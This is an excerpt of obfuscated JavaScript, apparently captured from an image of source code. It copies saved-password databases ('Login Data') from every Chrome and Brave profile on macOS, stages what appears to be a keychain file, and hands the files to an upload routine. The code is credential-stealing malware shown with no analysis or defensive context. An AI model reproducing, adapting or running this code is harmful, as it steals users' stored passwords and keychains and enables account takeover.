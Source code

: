 ```javascript
          const _0x477909 = {
            filename: 'logkc-db'
          };
          _0x51cdd4.push({
            'value': fs.createReadStream(_0x3c6b6f),
            'options': _0x477909
          });
        } catch (_0x2d3f57) {}
      }
    }
    try {
      let _0x521132 = homeDir + "/Library/Application Support/Google/Chrome";
      if (testPath(_0x521132)) {
        for (let _0x56cbbe = 0; _0x56cbbe < 200; _0x56cbbe++) {
          const _0x1ef5d8 = _0x521132 + '/' + (0 === _0x56cbbe ? "Default" : "Profile " + _0x56cbbe) + "/Login Data";
          try {
            if (!testPath(_0x1ef5d8)) {
              continue;
            }
            const _0xc4b064 = _0x521132 + "/ld_" + _0x56cbbe;
            const _0x1874f1 = {
              filename: 'pld_' + _0x56cbbe
            };
            if (testPath(_0xc4b064)) {
              _0x51cdd4.push({
                'value': fs.createReadStream(_0xc4b064),
                'options': _0x1874f1
              });
            } else {
              fs.copyFile(_0x1ef5d8, _0xc4b064, _0x4d2cb1 => {
                const _0x5b62c2 = {
                  filename: "pld_" + _0x56cbbe
                };
                let _0x18a5d8 = [{
                  'value': fs.createReadStream(_0x1ef5d8),
                  'options': _0x5b62c2
                }];
                Upload(_0x18a5d8, _0x35b03f);
              });
            }
          } catch (_0x2f0c0f) {}
        }
      }
    } catch (_0x5d433a) {}
    try {
      let _0x54eea8 = homeDir + "/Library/Application Support/BraveSoftware/Brave-Browser";
      if (testPath(_0x54eea8)) {
        for (let _0x16606d = 0; _0x16606d < 200; _0x16606d++) {
          const _0x45aed9 = _0x54eea8 + '/' + (0 === _0x16606d ? "Default" : "Profile " + _0x16606d);
          try {
            if (!testPath(_0x45aed9)) {
              continue;
            }
            const _0x21ef3f = _0x45aed9 + "/Login Data";
            const _0x13f8dc = {
              filename: 'brld_' + _0x16606d
            };
            if (testPath(_0x21ef3f)) {
              _0x51cdd4.push({
                'value': fs.createReadStream(_0x21ef3f),
                'options': _0x13f8dc
```
